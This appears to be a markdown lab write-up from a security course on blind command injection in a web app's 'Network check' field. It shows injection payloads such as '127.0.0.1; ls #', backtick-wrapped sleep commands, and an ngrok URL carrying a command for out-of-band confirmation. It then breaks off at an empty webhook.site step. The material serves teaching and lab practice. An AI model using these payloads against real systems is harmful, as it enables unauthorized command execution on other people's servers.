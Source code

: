 
## **Overview**

This vulnerability do not provide immediate or direct feedback to the attacker about the success or failure of their malicious actions. In other words, the attacker is "blind" to the results of their actions because they do not receive immediate feedback or error messages that would typically indicate whether their attack was successful or not.


## **Practicals**

### **Enumeration**

#### **Using Ngrok**

- Testing out our first payload `127.0.0.1; ls #` we can see that our `;` is been filtered out and we don't have results 


![](https://i.imgur.com/Ke3g2zP.png)


- Start up `Ngrok` with 

```bash
$ ngrok http 80
```

- Navigate back to our website and paste in your **ngrok** link

![](https://i.imgur.com/uso5sve.png)

- Now copy your ngrok link again, navigate to our website and paste in the link in the **Network check** bar as follow and click submit:

```
https://14f0-2c0f-f5c0-600-338b-fc7-aa19-f5d5-d3a.ngrok-free.app?`COMMAND-GOES-HERE`
```

![](https://i.imgur.com/LnDUrOf.png)

- Navigate to the web interface of `ngrok` and our command should have been executed

![](https://i.imgur.com/wjpLyvn.png)


![](https://i.imgur.com/9hBTOMo.png)

#### **Using sleep**

**Note :** we can also use the the `sleep` command to check if we have blind Command injection
  
```HTML
# web-app will sleep for 10 seconds
https://tcm-sec.com?`sleep 10`

# web-app will sleep for 25 seconds
https://tcm-sec.com?`sleep 25`
```


**_Web app will sleep for 50 seconds_**


![](https://i.imgur.com/wGi2LjV.png)



#### **Using webhook.site**

- navigate to [https://webhook.site](https://webhook.site)
- Copy your **Unique URL**

![](https://i.imgur.com/VH4EBGc.png)

- Paste as follow to the website

```

```